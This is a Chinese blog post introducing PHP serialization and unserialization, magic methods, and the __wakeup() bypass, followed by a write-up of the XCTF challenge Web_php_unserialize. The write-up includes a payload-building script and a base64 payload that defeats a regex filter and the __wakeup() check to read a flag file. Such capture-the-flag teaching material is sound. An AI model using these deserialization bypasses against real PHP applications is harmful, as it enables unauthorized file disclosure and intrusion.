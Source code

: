 ```yaml
---
title: php反序列化
date: 2020-04-24 09:49:57
updated: 2020-04-24 09:49:57
categories: web
---
```




在攻防世界做到一题有关PHP反序列化的题<a href="<https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5409&page=1" target="_blank">Web_php_unserialize</a>，有点懵逼，所以去简单学习了一下<!--more-->



# serialize()

serialize()  ---> 函数用于序列化对象或数组，并返回一个字符串

```php
<?php
Class test{
  public $a= '1';
  public $bb= 2;
  public $ccc= True;
}

$r= new test();
echoserialize($r);

$array_t= array("a"=>"1","bb"=>"2","ccc"=>"3");
echo serialize($array_t);
```



> O:4:"test":3:{s:1:"a";s:1:"1";s:2:"bb";i:2;s:3:"ccc";b:1;}
> a:3:{s:1:"a";s:1:"1";s:2:"bb";s:1:"2";s:3:"ccc";s:1:"3";}

各个字符的意义 ---> `第一个字母O 代表 Object，a代表 array，s代表 string，,i表示数字`

![](https://img.npfs06.top/20210306095124.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)
**类的属性有三种 private protected 和 public**

PHP 序列化的时候 **private**和 **protected** 变量会引入不可见字符`%00`，`%00类名%00属性名` 为private，`%00*%00属性名` 为protected，注意这两个 **%00**就是 ascii 码为0 的字符。这个字符显示和输出可能看不到，甚至导致截断，但是url编码后就可以看得清楚

```
<?php
Class test{
  private $a= "a";
  protected $b= "b";
  public $c= "c";
}

$r= new test();
echo serialize($r);
echo urlencode(serialize($r));
```

>O:4:"test":3:{s:7:"testa";s:1:"a";s:4:"*b";s:1:"b";s:1:"c";s:1:"c";}
>
>O%3A4%3A%22test%22%3A3%3A%7Bs%3A7%3A%22%00test%00a%22%3Bs%3A1%3A%22a%22%3Bs%3A4%3A%22%00%2A%00b%22%3Bs%3A1%3A%22b%22%3Bs%3A1%3A%22c%22%3Bs%3A1%3A%22c%22%3B%7D




# unserialize() 

unserialize() ---> 函数用于将通过 serialize()函数序列化后的对象或数组进行反序列化，并返回原始的对象结构

```
<?php
$sites = array('t1', 'tt2', 'ttt3');
$serialized_data = serialize($sites);
#echo  $serialized_data;
$unserialized_data = unserialize($serialized_data);
print_r($unserialized_data);
?>
```

>Array
>(
>​    [0] =>  t1
>​    [1] =>  tt2
>​    [2] =>  ttt3
>)



# 常用魔法函数


| 常用魔法函数  |                             定义                             |
| ------------- | :----------------------------------------------------------: |
| __construct() | 在创建对象时候初始化对象，一般用于对变量赋初值。创建一个新的类时，自动调用该方法 |
| __destruct()  | 和构造函数相反，当对象所在函数调用完毕后执行.即当一个类被销毁时自动调用该方法 |
| __toString()  |              当对象被当做一个字符串使用时调用。              |
| __sleep()     | 当调用`serialize()`函数时，PHP 将试图在序列动作之前调用该对象的成员函数 __sleep()。这就允许对象在被序列化之前做任何清除操作 |
| __wakeup()    | 反序列化恢复对象之前调用该方法.当使用 unserialize() 恢复对象时， 将调用 __wakeup() 成员函数 |
| __invoke()    |             把一个实例对象当作函数使用时自动调用             |
| __call()      |          当调用对象中不存在的方法会自动调用该方法。          |
| __get()       |                在调用私有属性的时候会自动执行                |
| __isset()     |          在不可访问的属性上调用isset()或empty()触发          |
| __unset()     |             在不可访问的属性上使用unset()时触发              |



**__wakeup() bypass**

在需要对__wakeup() 进行绕过的时候，可以让序列化结果中类属性的数值大于其真正的数值进行绕过，这个方式适用于PHP < 5.6.25 和 PHP< 7.0.10

```php
<?php
Class User{
  public $name="Bob";
  
  function __destruct(){
    echo"nameis Bob </br>";
  }
  
  function __wakeup(){
    echo"exit</br>";
  }
}
@var_dump(unserialize($_POST["u"]));
```

POST 参数O:4:"User":1:{s:4:"name";s:3:"Bob";}可以看到输出是：

```
exit

object(User)[1]
 public 'name' => string 'Bob' (length=3)

nameis Bob
```

如果在某些情况下，不想让__wakeup() 执行，可以将 "User"后的 2 改为一个比2 大的数字

POST 参数O:4:"User":2:{s:4:"name";s:3:"Bob";}：
```
nameis Bob

booleanfalse
```



---
**[XCTF]Web – Web_php_unserialize**

题目源码：

```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) {   #构造函数，对类的变量进行初始化
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() {  #魔术方法，如果有反序列化的使用，在反序列化之前会先调用这个方法
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) {         #存在$var                   
    $var = base64_decode($_GET['var']);   #将$var base64解码并赋值$var
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```

思路：主要是正则绕过和_wakeup（）绕过

正则匹配：因为不能匹配`O:4`这种，我们可以`O:+4`绕过，因为在url编码中`+`会被转换为空格

__wakeup()绕过：让序列化结果中类属性的数值大于其真正的数值进行绕过

```php
<?php
class Demo {
    private $file = 'fl4g.php';
}

$a= new demo;
$b=serialize($a);  //echo  O:4:"Demo":1:{s:10:" Demo file";s:8:"fl4g.php";}
$b=str_replace('O:4', 'O:+4',$b);//绕过preg_match
$b= str_replace(':1:', ':2:',$b);//绕过wakeup
echo base64_encode($b);     
?>
```

得到

> TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==

再进行get传参即可



# reference

<a href="https://mp.weixin.qq.com/s?__biz=MzU5MzIyNTcxNA==&mid=2247485916&idx=1&sn=ce338562a75b529b26d484fa90de031c&chksm=fe12fb41c96572572618a816ca615d562d5a4965990122c40e82a1b8f9084bc0a9438286a37c&mpshare=1&scene=23&srcid=0421ZkJIlDYGAZuUreh9EyXs&sharer_sharetime=1587447607661&sharer_shareid=20eedd9f9e15b3b3c30626e28ea74306#rd" target="___blank">php反序列化那些事 </a>

<a href="https://www.jianshu.com/p/8f498198fc3d" target="_blank">php序列化与反序列化入门</a>